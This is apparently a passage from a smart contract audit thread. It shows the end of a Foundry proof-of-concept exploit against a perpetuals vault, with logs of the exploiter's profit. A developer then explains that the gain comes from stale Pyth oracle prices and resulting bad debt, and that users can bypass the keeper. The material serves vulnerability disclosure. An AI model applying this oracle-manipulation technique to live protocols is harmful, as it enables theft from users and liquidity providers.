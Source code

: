 ```solidity
        // third stage: swap back to fix the skew
        collateralToken.approve(address(uniswapV3Router), type(uint256).max);
        uniswapV3Router.exactInput(
                ISwapRouter.ExactInputParams({
                    path: uniswapV3Q2BPath,
                    recipient: exploiter,
                    deadline: block.timestamp,
                    amountIn: collateralToken.balanceOf(exploiter),
                    amountOutMinimum: 0
                })
            );

       console.log("exploiter ending values (margin, collateral, base)");
       uint256 baseBalanceFinish = baseToken.balanceOf(exploiter);
       console.logInt(vault.getMargin(marketId,address(exploiter)).formatDecimals(INTERNAL_DECIMALS,collateralToken.decimals()));
       console.log(collateralToken.balanceOf(exploiter));
       console.log(baseBalanceFinish);

       // gain is for more than one ETH, which is enough to abandon the collateral in the vault
       console.log("Gain:", baseBalanceFinish - baseBalanceStart);

       vm.stopPrank();
    }
}
```

output:
```text
Logs:
  exploiter initial values (margin, collateral, base)
  2000000000
  0
  43000000000
  exploiter ending values (margin, collateral, base)
  2000000000
  0
  44018525544
  Gain: 1018525544
```

**paco0x**

@IllIllI000 thanks for your POC scripts. After carefully analyzing the numbers in this test case, I believe that the exploiter's profit is caused by bad debt under the assumption of deviation in pyth prices in 60s (7% in this case). 

In this test, the exploiter's actual source of income is that he increased his buying power by using a stale price for opening position. He short 2 ETH with avg price 964, this position passed the IM ratio check since the price is 1860 instead of 2000 in contract. And he'll be in bad debt after the price updated to 2000 in the contract. The SHBM is always hedged and does not lose money.

To mitigate the price deviation issue, we're currently using a permissioned keeper to settle user's orders with makers, but seems users can still open position directly with SHBM to bypass the keeper. And if the price deviation issue exists, there'll be a room to intentionally generate bad debt and make profit, just like in this test case.
